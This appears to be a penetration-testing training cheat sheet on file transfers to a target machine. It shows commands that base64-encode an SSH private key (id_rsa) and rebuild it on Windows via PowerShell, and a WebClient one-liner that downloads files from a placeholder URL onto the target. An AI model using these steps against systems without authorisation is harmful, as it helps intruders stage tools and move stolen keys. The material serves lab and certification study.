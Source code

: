 ```yaml
---
layout: post
title:  File transfers
description: How to transfer a file to your target
date:   2018-04-21 15:01:35 +0300
image:  'https://academy.hackthebox.com/storage/modules/24/logo.png'
cheats: true
featured: true
toc: true
tags:   [cheatsheet, cpts, oscp, osce]
---
```



# Download Operations

## PowerShell Base64 Encode & Decode

`XeroCyb3r@htb[/htb] md5sum id_rsa`

`XeroCyb3r@htb[/htb] cat id_rsa |base64 -w 0;echo`

`PS C:\htb> [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("<base64>"))`

Finally, we can confirm if the file was transferred successfully using the [Get-FileHash](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/get-filehash?view=powershell-7.2) cmdlet, which does the same thing that `md5sum` does.

`PS C:\htb> Get-FileHash C:\Users\Public\id_rsa -Algorithm md5`

## **PowerShell Web Downloads**

| Method | Description |
| --- | --- |
| https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openread?view=net-6.0 | Returns the data from a resource as a https://docs.microsoft.com/en-us/dotnet/api/system.io.stream?view=net-6.0. |
| https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openreadasync?view=net-6.0 | Returns the data from a resource without blocking the calling thread. |
| https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=net-6.0 | Downloads data from a resource and returns a Byte array. |
| https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddataasync?view=net-6.0 | Downloads data from a resource and returns a Byte array without blocking the calling thread. |
| https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0 | Downloads data from a resource to a local file. |
| https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfileasync?view=net-6.0 | Downloads data from a resource to a local file without blocking the calling thread. |
| https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-6.0 | Downloads a String from a resource and returns a String. |
| https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstringasync?view=net-6.0 | Downloads a String from a resource without blocking the calling thread. |

`PS C:\htb> (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')`
